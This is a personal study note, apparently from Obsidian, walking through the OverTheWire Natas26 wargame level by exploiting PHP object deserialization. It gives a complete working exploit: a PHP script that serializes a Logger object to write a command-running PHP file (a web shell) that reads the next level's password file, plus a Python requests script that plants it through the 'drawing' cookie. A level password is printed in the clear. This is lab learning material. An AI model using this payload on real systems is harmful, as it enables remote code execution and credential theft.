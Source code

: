 
2024-07-26 12:51

Source: #natas #web #py 

Tags: [[PHP]] 

## Natas26

also known as - PHP object [[deserialization]]

PHP object injection through the serialized and unserialized PHP functions can be super dangerous especially **if there's complete user control over what data is being serialized**

PHP code from the source shows that it is using object oriented programming as it has a class called `logger`

`__construct()` and `__destruct()` are defined in `logger` 
these double underscore functions are PHP magic object functions so they are necessary and built-in for PHP.

the code further draws from user given x and y coordinates, it does this via a drawing cookie 
source code looks like - 
```
if (array_key_exists("drawing", $_COOKIE)){
    $drawing=unserialize(base64_decode($_COOKIE["drawing"]));  
}
```
`unserializing` data that we have complete control over is a huge vulnerability 
it's using our session ID as the actual location that it's loading the image file from

Since the website is using the session id to name `png` files we can try injecting code but it doesn't work 
on returning the cookies after drawing something we see a drawing cookie along with the session cookie. The drawing cookie is [[base64]] encoded + Url encoded in order to get around this we use - 
```
import base64
from urllib.parse import unquote
.
.
base64.b64decode(unquote(session.cookies['drawing'])))
```
in the output we get PHP serialized data

this class logger we can actually change what these variables are and what they do, and if we give that to the drawing cookie and the PHP application will like unserialize that data for us, it'll load up this logger and we'll try and write that message and we may be able to take advantage of what we actually write to a file and we can essentially get some code on the server and maybe run our own PHP code because we are writing to a file with this.

create a php file and copy the snippet of `logger `class 
```
<?php
class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;
        
        function __construct($file){
            // initialise variables
            $this->initMsg="<?php system('cat /etc/natas_webpass/natas27'); ?>";
            $this->exitMsg="<?php system('cat /etc/natas_webpass/natas27'); ?>";
            $this->logFile = "img/winner.php";
//above we create a custom initalise message and log it to file we can access later
// we write to img because it is trying to load out of that image directory 

			// write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->initMsg);
            fclose($fd);
        }
        
        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }
        
        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }
    }
$object = new Logger();
echo(base64_encode(serialize($object)));
?>
```
- make sure you run this code with php version 7 only as it only runs on that version
in order to run php directly on kali  - 
```
php7.0 file_name.php 2>/dev/null
```
the output will be a base64 string 
we set that b64 string to our drawing cookie 

```
import requests
username = 'natas26'
password = 'cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE'

url = 'http://natas26.natas.labs.overthewire.org/'
session = requests.Session()
response = session.get(url,auth=(username,password))

response.cookies['PHPSESSID']

session.cookies['drawing'] = 'Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxNDoiaW1nL3dpbm5lci5waHAiO3M6MTU6IgBMb2dnZXIAaW5pdE1zZyI7czo1MDoiPD9waHAgc3lzdGVtKCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO3M6MTU6IgBMb2dnZXIAZXhpdE1zZyI7czo1MDoiPD9waHAgc3lzdGVtKCdjYXQgL2V0Yy9uYXRhc193ZWJwYXNzL25hdGFzMjcnKTsgPz4iO30='

response = session.get(url+'?x1=0&y1=0&x2=55&y2=500',auth=(username,password))
print(response.text)
```

after doing this we encounter a fatal error, we know that this means that our code successfully executed we know that we got that object to unserialized

we then change the `get` request to fetch to winner.php file that we manipulated 
```
response = session.get(url+'img/winner.php',auth=(username,password))
```
### References
https://www.youtube.com/watch?v=IgxhtJQL-gY
php magic methods - https://www.php.net/manual/en/language.oop5.magic.php
php version 7.0.33 - https://onlinephp.io/
php object injection  - https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection